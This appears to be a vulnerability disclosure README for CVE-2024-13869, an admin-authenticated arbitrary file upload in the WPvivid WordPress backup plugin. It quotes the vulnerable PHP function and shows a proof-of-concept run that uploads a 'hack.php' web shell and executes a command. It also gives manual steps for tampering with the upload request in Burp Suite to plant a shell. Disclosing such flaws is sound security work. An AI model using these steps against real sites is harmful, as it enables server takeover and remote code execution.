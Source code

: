 # CVE-2024-13869
## Migration,Backup, Staging – WPvivid &lt;= 0.9.112 - Authenticated (Admin+) Arbitrary File Upload via wpvivid_upload_file

The [wpvivid-backuprestore](https://wordpress.org/plugins/wpvivid-backuprestore/) plugin does not sanitize the file types of the `wpvivid_upload_file` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.


## TL;DR Exploits
* A POC [CVE-2024-13869.py](https://github.com/d0n601/CVE-2024-13869/blob/main/CVE-2024-13869.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.
  
```console
python3 ./CVE-2024-13869.py https://lab0.hacker admin PASSWORD   
Logging into: https://lab0.hacker/wp-admin
Extracting nonce values...
ajax_nonce: a993fb1986
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab0.hacker/wp-content/wpvividbackups/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 46962sec preferred_lft 46962sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86190sec preferred_lft 14190sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:c7:fd:25 brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fec7:fd25/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:28:bd:99:83 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```


## Details  
It appears the `wpvivid_upload_file` action calls the `upload_files` function on line 293 of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-backup-uploader.php`, which checks the nonce and user's permissions, but not the file type being uploaded to the server.

```php
    function upload_files()
    {
        check_ajax_referer( 'wpvivid_ajax', 'nonce' );
        $check=current_user_can('manage_options');
        $check=apply_filters('wpvivid_ajax_check_security',$check);
        if(!$check)
        {
            die();
        }

        try
        {
            $chunk = isset($_REQUEST["chunk"]) ? intval(sanitize_key($_REQUEST["chunk"])) : 0;
            $chunks = isset($_REQUEST["chunks"]) ? intval(sanitize_key($_REQUEST["chunks"])) : 0;

            $fileName = isset($_REQUEST["name"]) ? sanitize_text_field($_REQUEST["name"]) : $_FILES["file"]["name"];

            $backupdir=WPvivid_Setting::get_backupdir();
            $filePath = WP_CONTENT_DIR.DIRECTORY_SEPARATOR.$backupdir.DIRECTORY_SEPARATOR.$fileName;

            $out = @fopen("{$filePath}.part", $chunk == 0 ? "wb" : "ab");

            if ($out)
            {
                // Read binary input stream and append it to temp file
                $options['test_form'] =true;
                $options['action'] ='wpvivid_upload_files';
                $options['test_type'] = false;
                $options['ext'] = 'zip';
                $options['type'] = 'application/zip';

                add_filter('upload_dir', array($this, 'upload_dir'));

                $status = wp_handle_upload($_FILES['async-upload'],$options);

                remove_filter('upload_dir', array($this, 'upload_dir'));

                $in = @fopen($status['file'], "rb");

                if ($in)
                {
                    while ($buff = fread($in, 4096))
                        fwrite($out, $buff);
                }
                else
                {
                    echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open tmp file.path:".$status['file']));
                    die();
                }

                @fclose($in);
                @fclose($out);

                @wp_delete_file($status['file']);
            }
            else
            {
                echo wp_json_encode(array('result'=>'failed','error'=>"Failed to open input stream.path:{$filePath}.part"));
                die();
            }

            if (!$chunks || $chunk == $chunks - 1)
            {
                // Strip the temp .part suffix off
                rename("{$filePath}.part", $filePath);
            }

            echo wp_json_encode(array('result' => WPVIVID_SUCCESS));
        }
        catch (Exception $error)
        {
            $message = 'An exception has occurred. class: '.get_class($error).';msg: '.$error->getMessage().';code: '.$error->getCode().';line: '.$error->getLine().';in_file: '.$error->getFile().';';
            error_log($message);
            echo wp_json_encode(array('result'=>'failed','error'=>$message));
        }
        die();
    }
```


## Manual Reproduction
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Under `Backup & Restore`, click the `Backup Now` button to create a new backup and download it so we can use the `.zip` file in the following steps.
3. Under the `Backup & Restore` section again, navigate to the `Upload` tab and select the `.zip` we've just created. 
![pre_upload](https://github.com/user-attachments/assets/55ddbb43-ba15-47b2-88ac-dd801208049e)
4. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
5. Click `Upload` and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `wpvivid_upload_files` action.
![intercept_call](https://github.com/user-attachments/assets/6fcb8edd-9d34-4b05-b1aa-0b83c8d4795c)
6. Modify the request to include an arbitrary file, in the example below we're uploading a php web shell. 
![modify](https://github.com/user-attachments/assets/7170a0b2-a9b6-4623-919d-3f105d9e2d45)
7. Send the request and recieve `{"result":"success"}`.
![sent_modified](https://github.com/user-attachments/assets/a49b17fb-2c62-41d9-88e9-63ad77a4e164)
8. Browse the web shell at `https://example.com/wp-content/wpvividbackups/webshell.php` and execute code.
![hitshell](https://github.com/user-attachments/assets/fe5907a6-239c-4367-ad70-73c420b06443)


